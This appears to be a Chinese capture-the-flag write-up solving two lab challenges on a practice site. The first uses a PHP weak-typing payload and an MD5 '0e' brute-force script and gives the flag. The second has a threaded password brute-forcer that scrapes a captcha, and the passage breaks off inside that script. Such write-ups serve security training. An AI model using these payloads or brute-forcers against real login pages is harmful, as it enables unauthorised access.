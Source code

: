 ## 类型
```
http://ctf1.shiyanbar.com/shian-leixing/
```
经典弱类型题，构造
```
http://ctf1.shiyanbar.com/shian-leixing/?x1=0&x2={'x21':'2018a','x22':[[1],0]}&x3=XIPU-=3CS
```
其中`XIPU-=3CS`md5加密后的8到16位以0e开头，其他全是数字
下面是跑md5脚本
```python
import hashlib
b='-=[],./;"1234567890abcdefghijklmnoprstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'

def find(str1):
    if hashlib.md5(str1).hexdigest()[8:10]=='0e':
        flag=0
        for i in hashlib.md5(str1).hexdigest()[10:24]:
            if i>'9':
                flag=1;
                break
        if flag==0:
            print str1
            input("success")
    if(len(str1)>8):
        return
    else:
        for i in b:
            find(str1+i)
if __name__ == '__main__':
    find('XIPU')
```
`CTF{Php_1s_bstl4_1a}`

## 登录
```
http://ctf1.shiyanbar.com/shian-s/
```
提示密码`5位数字`，跑密码
```python
#!/usr/bin/env
# -*- coding: utf-8 -*-
# by:xishir
import requests as r
import re
import threading


url='http://ctf1.shiyanbar.com/shian-s/index.php'
class MyThread(threading.Thread):
	def __init__(self, arg):
		super(MyThread, self).__init__()
		self.arg = arg
	def run(self):
		for site in self.arg:
			scan(site)

def scan(i):
    print i
    try:
    	r1=r.session()
        r3=r1.get(url)
        ss=re.findall(r'type="text"><br><br>(.*?)<br><br>',r3.text)
        url1=url+'?username=admin&password='+i+'&randcode='+ss[0]
```